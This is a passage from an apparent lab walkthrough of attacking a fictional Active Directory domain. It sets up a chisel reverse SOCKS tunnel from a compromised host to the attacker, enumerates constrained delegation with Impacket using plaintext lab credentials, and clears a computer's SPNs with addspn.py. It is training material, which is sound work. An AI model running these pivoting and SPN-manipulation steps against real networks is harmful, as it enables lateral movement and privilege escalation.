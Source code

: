 ```shell
cat /etc/proxychains.conf | grep -Ev '(^#|^$)' | grep socks
socks5 127.0.0.1 1080

```

Next, on our Linux machine, we will execute `chisel server --reverse`:

```shell
./chisel server --reverse
2024/03/28 07:09:08 server: Reverse tunnelling enabled
2024/03/28 07:09:08 server: Fingerprint AKOstLSoSTPQPp2PVEALM6z9Jx0IQVEEmO7bOSan1s4=
2024/03/28 07:09:08 server: Listening on http://0.0.0.0:8080
2024/03/28 07:10:49 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

```

Then, in `SRV01`, we will connect to the server with the following command `chisel.exe client <VPN IP> R:socks`:

```powershell
PS C:\Tools> .\chisel.exe client 10.10.14.33:8080 R:socks
2024/03/28 06:10:48 client: Connecting to ws://10.10.14.33:8080
2024/03/28 06:10:49 client: Connected (Latency 137.6381ms)

```

Once the reverse proxy is established, the next step involves leveraging [findDelegation.py](https://github.com/fortra/impacket/blob/master/examples/findDelegation.py) from [Impacket](https://github.com/fortra/impacket), using proxychains to proxy our traffic into the internal network. This step is vital for identifying accounts with constrained delegation rights:

```shell
proxychains4 -q findDelegation.py -target-domain inlanefreight.local -dc-ip 172.16.92.10 -dc-host dc02 inlanefreight.local/gabriel:Godisgood001
Impacket v0.11.0 - Copyright 2023 Fortra

AccountName AccountType DelegationType           DelegationRightsTo
----------- ----------- ---------------------------------- -------------------------------------
SRV01$   Computer  Constrained w/ Protocol Transition dmserver/DBSRV003
SRV01$   Computer  Constrained w/ Protocol Transition dmserver/DBSRV003.inlanefreigth.local
SRV01$   Computer  Constrained w/ Protocol Transition www/EXCH03
SRV01$   Computer  Constrained w/ Protocol Transition www/EXCH03.inlanefreigth.local
SRV01$   Computer  Constrained w/ Protocol Transition dhcp/DATABASE01
SRV01$   Computer  Constrained w/ Protocol Transition dhcp/DATABASE01.inlanefreigth.local

```

Next, we need to clone [Krbrelayx](https://github.com/dirkjanm/krbrelayx) because we need to use [addspn.py](https://github.com/dirkjanm/krbrelayx/blob/master/addspn.py), to manipulate SPNs. First, we will use it to clear DBSRV003's SPN. We need to use the option `--clear` and select the target with the option `-t target`:

```shell
proxychains4 -q python3 addspn.py 172.16.92.10 -u 'inlanefreight.local\gabriel' -p Godisgood001 --clear -t 'DBSRV003$' -dc-ip 172.16.92.10
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] Printing object before clearing
DN: CN=DBSRV003,CN=Computers,DC=inlanefreight,DC=local - STATUS: Read - READ TIME: 2024-03-28T07:51:47.856909
  dNSHostName: dbsrv003.inlanefreight.local
  sAMAccountName: DBSRV003$
  servicePrincipalName: dmserver/DBSRV003.inlanefreight.local
             dmserver/DBSRV003
             WSMAN/DBSRV003
             WSMAN/DBSRV003.inlanefreight.local
```

[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname